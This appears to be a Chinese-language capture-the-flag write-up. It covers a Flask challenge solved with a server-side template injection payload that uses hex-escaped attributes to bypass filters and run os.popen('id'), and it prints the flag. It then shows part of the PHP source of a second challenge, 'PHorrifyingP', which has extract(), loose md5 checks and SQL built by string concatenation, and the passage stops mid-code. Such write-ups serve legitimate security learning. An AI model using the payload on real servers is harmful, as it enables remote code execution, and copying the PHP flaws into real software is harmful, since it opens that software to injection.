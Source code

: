 给了一个app.py，网页打开发现乱码，vps下载一下，三个路由，只有中间的存在SSTI

![image-20220313092947455](https://img-blog.csdnimg.cn/img_convert/8481a357eead053d5f31ece3365eeb51.png)

脚本弄出路由

```
p=.....
s=''
for i in p:
    if i == '\n':
        s+='%0A'
    elif i == '\r':
        pass
    elif i == ' ':
        s+='%20'
    else:
        s+=i
    
print(s)
```

绕过滤，[Field-Manual/Payloads to Use.md](https://github.com/captain-woof/Field-Manual/blob/ff8039af20f2eefe6f2dd52918c0789520f2e4c5/Web-Apps/SSTI/Payloads to Use.md) ，payload

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

FLAG：flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}

# PHorrifyingP

```php
<?php
/*
    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>
*/
highlight_file(__FILE__);

if ($_SERVER['REQUEST_METHOD'] == 'POST'){
    extract($_POST);

    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){
        $loggedin = true;
    }

    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){
        header('Location: ' . $_SERVER['REQUEST_URI']);
    }

    if (isset($loggedin) && $loggedin){
        echo 'One step closer 😎<br>';

        if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){
            echo 'Really? 😅<br>';

            $db = new SQLite3('database.db');
            $sql_where = Array('1=0');

            foreach ($_POST as $key => $data) {
                 $sql_where[] = $key . "='" . $data . "'";
            }
            
```